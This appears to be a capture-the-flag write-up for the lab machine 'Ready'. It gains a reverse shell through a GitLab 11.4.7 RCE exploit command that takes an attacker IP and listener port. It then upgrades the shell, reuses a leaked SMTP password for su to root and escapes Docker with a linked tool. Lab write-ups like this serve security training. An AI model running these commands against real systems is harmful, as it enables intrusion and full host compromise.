

==================
```
Nmap scan report for 10.10.10.220
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen
``` 
On this machine we found open ports at 22 (SSH) and 5080. Visting the website on port 5080 we are given a Sign In Page of GitLab.
We can create a new User.

On the help page we find the version number with the hint to update asap:



Searching online for vulnerabilities of that version we find:
https://github.com/ctrlsam/GitLab-11.4.7-RCE

with:
```
python3 exploit.py -u [selbst_erstellter_user] -p [selbst_erstelltes_passwort] -g http://ready.htb -l [DEINE_IP_DU_SHIT] -P 4444
```
and a listener we al#ready# got user access.
The exploit will create a project and do some magic to get a shell.

root:
-------------------

To get a better shell we can use:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
With a little bit of enumeration an the standard john password grepper we find an password in /opt/backup/gitlab.rb.
In the gitlab.rb the gitlab rails smtp password is set to: wW59U!ZKMbG9+*#h

Just by trying 'su' and the given password we became root. But we are still inside the docker.
To escape we can use: https://github.com/PercussiveElbow/docker-escape-tool

quite enough:
```
./docker-escape check
```
An other way: https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout

Now we escaped the docker and rooted the machine.
